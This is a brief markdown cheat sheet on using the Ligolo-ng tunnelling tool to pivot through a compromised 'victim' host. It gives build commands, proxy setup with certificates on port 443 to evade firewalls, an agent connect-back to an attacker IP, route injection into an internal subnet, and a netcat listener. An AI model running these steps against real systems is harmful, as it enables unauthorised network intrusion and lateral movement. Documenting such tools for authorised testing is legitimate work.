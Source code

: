 INIT
# Ligolo-ng
## Installation
``` 
git clone https://github.com/nicocha30/ligolo-ng
``` 
### Build the binary
#### Agent
``` 
go build -o agent cmd/agent/main.go
```
For Windows binary:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```
#### Proxy
```
go build -o proxy cmd/proxy/main.go
``` 
For Windows binary:
```
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```
### Setup 
```bash
sudo ip tuntap add user <username> mode tun ligolo
sudo ip link set ligolo up
```
#### Set up Proxy
```
./proxy -autocert
``` 
##### Another option 
Setup w/ self cert and use `-laddr` to bypass firewall (potentially)
```
./proxy -selfcert -laddr 0.0.0.0:443
``` 
### Send the agent to the victim pivot host 
```
scp ./agent <user>@<pivotIP>:/absolute/path
```
OR
``` 
./agent -connect <AttackIP>:11601
``` 
in the ligolo c2 
``` 
ligolo-ng >> session ? Specify a session : 1 - <usr>@<hostname> - XX.XX.XX.XX:38000
``` 
once specified, we can see their configuration 
``` 
[Agent : <usr>@<hostname>] >> ifconfig ┌────────────────────────────────────┐ │ Interface 0 │ ├──────────────┬─────────────────────┤ │ Name │ lo │ │ Hardware MAC │ │ │ MTU │ 65536 │ │ Flags │ up|loopback|running │ │ IPv4 Address │ 127.0.0.1/8 │ │ IPv6 Address │ ::1/128 │ └──────────────┴─────────────────────┘ 
```
in a new terminal 
```
sudo ip route add 192.168.0.0/24 dev ligolo
```
back in the ligolo c2 
```
[Agent : <usr>@<hostname>] >> start
```
your good to go 
```
ping 192.168.110.55
```
### Agent Binding/Listening
in the ligolo session use the `listener_add` command 
``` 
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```
```
nc -lvnp 4321
```
remove with 
```
listener_list listener_stop 0
```
## remove ligolo interface 
```
sudo ip link delete ligolo
```